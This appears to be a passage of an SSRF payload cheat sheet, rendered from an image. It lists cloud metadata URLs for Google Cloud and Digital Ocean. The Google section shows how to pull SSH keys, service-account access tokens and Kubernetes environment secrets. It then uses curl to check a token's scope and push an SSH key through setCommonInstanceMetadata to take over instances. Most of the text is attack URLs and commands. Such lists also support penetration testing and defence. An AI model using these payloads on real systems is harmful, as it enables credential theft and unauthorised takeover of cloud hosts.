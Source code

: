 SSH Public Key : [http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json](.)

Get Access Token : [http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token](.)

Kubernetes Key : [http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json](.)
Add an SSH key

Extract the token

[http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json](.)

Check the scope of the token

```
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  
{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
Now push the SSH key.
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
	-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
	-H "Content-Type: application/json" 
		--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```
- SSRF URL for Digital Ocean

Documentation available at [https://developers.digitalocean.com/documentation/metadata/](.)

curl [http://169.254.169.254/metadata/v1/id](.)

[http://169.254.169.254/metadata/v1.json](.)

[http://169.254.169.254/metadata/v1/](.)

[http://169.254.169.254/metadata/v1/id](.)

[http://169.254.169.254/metadata/v1/user-data](.)

[http://169.254.169.254/metadata/v1/hostname](.)

[http://169.254.169.254/metadata/v1/region](.)

[http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address](.)

All in one request:
curl [http://169.254.169.254/metadata/v1.json | jq](.)

- SSRF URL for Packetcloud
Documentation available at [https://metadata.packet.net/userdata](.)

